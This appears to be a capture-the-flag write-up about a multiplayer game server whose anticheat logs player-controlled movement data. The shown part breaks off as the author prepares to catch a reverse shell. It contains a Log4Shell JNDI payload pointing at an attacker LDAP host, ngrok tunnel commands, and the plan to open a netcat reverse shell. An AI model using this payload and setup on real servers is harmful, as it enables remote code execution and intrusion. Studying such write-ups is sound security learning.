 >    def handle_bird_movement(data):
>        user_id = data.get('user_id')
>        if user_id in players:
>            del data['user_id']
>            if players[user_id] != data:
>                with lock:
>                    players[user_id] = {
>                        'x': data['x'],
>                        'y': data['y'],
>                        'color': 'black',
>                        'angle': data.get('angle', 0)
>                    }
>                    if analyze_movement(user_id, data['x'], data['y'], data.get('angle', 0)):
>                        log_action(user_id, f"was cheating with final position ({data['x']}, {data['y']}) and final angle: {data['angle']}")
>                        # del players[user_id] # Remove the player from the game - we are in beta so idc
>                    emit('update_bird_positions', players, broadcast=True)
>
>    @socketio.on('disconnect')
>    @login_required
>    def handle_disconnect(data):
>        user_id = current_user.get_id()
>        if user_id in players:
>            del players[user_id]
>        emit('update_bird_positions', players, broadcast=True)
>```
>
> To trigger the anticheat, we still need to bypass the `analyze_movement` function. This function calculates whether our speed exceeds a certain threshold (the speed is calculated using other data like coordinates and timestamps). If it detects suspicious movement, it will log the attempt (inserting our payload into the logs). It also interpolates the `angle` property, which is never used in `analyze_movement`, so we can set it to whatever we want. Let’s proceed with the exploit.

## 🔬 Vulnerability Analysis
### Potential Vulnerabilities
>- [x] Log4Shell

# 🎯 Solution Path

## Exploitation Steps
### Initial setup
> The exploit essentially relies on sending a string like `jndi:ldap://<ip>:1389/a` to the server to have it written in the Log4j logs. Once this is done, we will receive a connection on our previously started server, obtaining a reverse shell.
>
### Exploitation
> First, I set up the port forwarding, as the `poc.py` file that exploits the vulnerability requires 3 port forwardings:
> 
>   ```bash
> ngrok tcp 1389
> ngrok http 8080
> ngrok tcp 9001  
>   ```
>
> The first port is where the `LDAP` server will be hosted, the second is for the `web server` where the string we send will retrieve the `java` exploit created by the `poc.py` file, and finally, the last port is used to receive the `reverse shell` on `netcat`. So, we also open a `netcat` session: